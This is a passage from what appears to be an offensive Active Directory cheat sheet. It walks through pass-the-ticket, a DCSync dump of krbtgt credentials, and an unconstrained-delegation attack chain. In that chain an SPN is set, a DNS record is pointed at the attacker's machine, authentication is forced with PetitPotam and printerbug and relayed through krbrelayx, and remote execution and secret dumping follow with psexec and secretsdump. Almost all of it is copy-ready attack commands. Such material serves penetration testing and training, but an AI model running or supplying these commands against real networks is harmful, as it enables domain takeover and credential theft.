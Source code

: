 ````
.\Rubeus.exe ptt /ticket:<TICKET>
```

#### Run DCSync to get credentials:
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

### Unconstrained delegation User
- Requires
	- A user with unconstrained delegation 
	- User should have a SPN which doesn't point to a valid dns record - or it needs to point to a machine under your control - or able to set spn & create DNS record
- https://exploit.ph/user-constrained-delegation.html

#### Check User attributes
```
Get-Domainuser <USER> | select-object samaccountname, serviceprincipalname, useraccountcontrol
```

#### Set SPN for user
```
Set-DomainObject -Identity <USER> -Set @{serviceprincipalname='cifs/<HOSTNAME>.<DOMAIN>'}
```

#### Create a DNS record pointing to the attacker's machine IP
-   https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py
-   https://github.com/Kevin-Robertson/Powermad/blob/master/Invoke-DNSUpdate.ps1
- When the tools throw errors like `NoSuchObject` try the `--legacy` or `--forest` with `dnstool.py` or the `-Partition` parameter from PowerMad.
```
dnstool.py -u <DOMAIN>\<USER> -a add -r <HOSTNAME> -d <ATTACKER IP> <DC IP>

Invoke-DNSUpdate -DNSType A -DNSName <HOSTNAME> -DNSData <IP ATTACKING MACHINE> -Realm <DOMAIN>
```

#### Calculate RC4 hash for the user
```
./Rubeus.exe hash /password:<PASSWORD> /user:<USER> /domain:<DOMAIN>
```

#### Setup krbrelayx
- Will save the ticket to disk after executing printerbug
- https://github.com/dirkjanm/krbrelayx
```
sudo python3 /opt/windows/krbrelayx/krbrelayx.py -hashes :<HASH>
```

#### Trigger target to authenticate to attacker machine
- Use hostname we created in the DNS record
- https://github.com/topotam/PetitPotam
- https://github.com/dirkjanm/krbrelayx
```
python3 printerbug.py <DOMAIN>/<USER>@<TARGET> <HOSTNAME>.<DOMAIN>

python3 PetitPotam.py -d <DOMAIN> -u <USER> -p <PASSWORD> <HOSTNAME>.<DOMAIN> <TARGET>
```

#### Use TGT ticket and exploit
```
export KRB5CCNAME=<FILE>.ccache
python3 Psexec.py -k -no-pass <TARGET FQDN>
python3 Secretsdump.py -k <TARGET FQDN>
```

````